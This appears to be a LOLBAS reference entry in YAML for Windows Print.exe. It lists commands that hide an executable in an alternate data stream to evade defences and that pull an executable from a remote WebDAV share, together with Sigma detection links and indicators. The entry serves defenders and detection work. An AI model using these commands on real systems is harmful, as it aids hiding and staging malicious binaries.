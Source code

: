 ```yaml
---
Name: Print.exe
Description: Used by Windows to send files to the printer
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: print /D:C:\ADS\File.txt:file.exe C:\ADS\File.exe
    Description: Copy file.exe into the Alternate Data Stream (ADS) of file.txt.
    Usecase: Hide binary file in alternate data stream to potentially bypass defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: print /D:C:\ADS\CopyOfFile.exe C:\ADS\FileToCopy.exe
    Description: Copy FileToCopy.exe to the target C:\ADS\CopyOfFile.exe
    Usecase: Copy files
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: print /D:C:\OutFolder\outfile.exe \\WebDavServer\Folder\File.exe
    Description: Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
    Usecase: Copy/Download file from remote server
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\print.exe
  - Path: C:\Windows\SysWOW64\print.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_print.yml
  - IOC: Print.exe retrieving files from internet
  - IOC: Print.exe creating executable files on disk
Resources:
  - Link: https://twitter.com/Oddvarmoe/status/985518877076541440
  - Link: https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

